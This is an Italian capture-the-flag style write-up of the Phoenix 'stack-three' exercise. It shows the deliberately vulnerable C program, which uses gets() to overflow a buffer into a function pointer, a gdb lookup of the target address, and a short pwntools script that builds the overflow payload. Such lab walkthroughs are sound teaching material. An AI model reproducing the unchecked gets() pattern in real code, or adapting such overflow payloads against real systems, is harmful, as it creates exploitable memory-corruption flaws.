 ### Descrizione del Codice

Il programma `stack_three.c` presenta una vulnerabilità di overflow del buffer che può essere sfruttata per sovrascrivere i puntatori a funzione memorizzati nello stack.

### Funzionamento del Programma

1. Il programma legge un input dall'utente utilizzando la funzione `gets` e lo memorizza in `buffer`.
2. La funzione `gets` non controlla la lunghezza dell'input, il che può causare un overflow del buffer.
3. La funzione `main` verifica se il puntatore a funzione `fp` è stato modificato e, in tal caso, chiama la funzione puntata da `fp`.

### Problema di Sicurezza

Il problema di sicurezza risiede nell'uso della funzione `gets` senza controllare la lunghezza dell'input, il che può causare un overflow del buffer. Questo può essere sfruttato per sovrascrivere il valore di `fp`, che è un puntatore a funzione, per farlo puntare alla funzione `complete_level`.

### Exploit

L'exploit sfrutta l'overflow del buffer per sovrascrivere il valore di `fp` per farlo puntare alla funzione `complete_level`.

### Esempio di Exploit

Il seguente esempio mostra come sfruttare la vulnerabilità:

```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int (*fp)();
  } locals;

  printf("%s\n", BANNER);

  locals.fp = NULL;
  gets(locals.buffer);

  if (locals.fp) {
    printf("calling function pointer @ %p\n", locals.fp);
    fflush(stdout);
    locals.fp();
  } else {
    printf("function pointer remains unmodified :~( better luck next time!\n");
  }

  exit(0);
}

L'obiettivo di questa sfida è sovrascrivere il valore di fp, che è un puntatore a funzione, per farlo puntare alla funzione complete_level.

Prima otteniamo l'indirizzo della funzione complete_level:
$ gdb -q /opt/phoenix/amd64/stack-three
Reading symbols from /opt/phoenix/amd64/stack-three...(no debugging symbols found)...done.

gef➤  print complete_level 
$1 = {<text variable, no debug info>} 0x40069d <complete_level>

Ora che sappiamo che l'indirizzo della funzione complete_level è 0x40069d, possiamo costruire il nostro exploit.

Soluzione:
# solve.py

from pwn import *

buff = ""
buff += 'A'*64
buff += p64(0x40069d)

print(buff)

Eseguiamo lo script:
$ python solve.py | /opt/phoenix/amd64/stack-three